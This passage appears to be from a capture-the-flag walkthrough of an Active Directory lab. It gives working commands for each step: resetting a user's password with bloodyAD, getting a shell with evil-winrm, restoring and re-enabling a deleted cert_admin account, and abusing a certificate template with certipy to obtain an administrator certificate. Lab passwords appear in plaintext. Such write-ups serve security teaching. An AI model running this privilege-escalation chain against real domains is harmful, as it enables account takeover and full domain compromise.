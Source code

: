 ```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'NoSecHere!' set password john 'NoSecHere'
```

---

## User shell & user flag

### Evil-WinRM login:

```
evil-winrm -i 10.10.11.72 -u john -p NoSecHere
```

- **User flag:** C:\Users\john\Desktop\user.txt

---

## Restoring deleted cert_admin AD object

- Searching:
```
Get-ADObject -filter {SamAccountName -eq 'cert_admin'} -IncludeDeletedObjects
```
- Restore:
```
Restore-ADObject -Identity <GUID>
```
- Enable:
```
Enable-ADAccount -Identity cert_admin
```
- Password reset:
```
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "NoSecHere" -AsPlainText -Force)
```

---

## ADCS escalation – Domain Admin cert chain

### Sablon enum:

```
certipy-ad find -u cert_admin -p 'NoSecHere' -dc-ip 10.10.11.72 -vulnerable
```

### Admin cert acquisition (old certipy):

```
python3 entry.py req -dc-ip 10.10.11.72 -ca tombwatcher-CA-1 -u cert_admin@tombwatcher.htb -p 'NoSecHere' -template WebServer -upn administrator@tombwatcher.htb -application-policies 1.3.6.1.5.5.7.3.2
```
- **UPN:** administrator@tombwatcher.htb

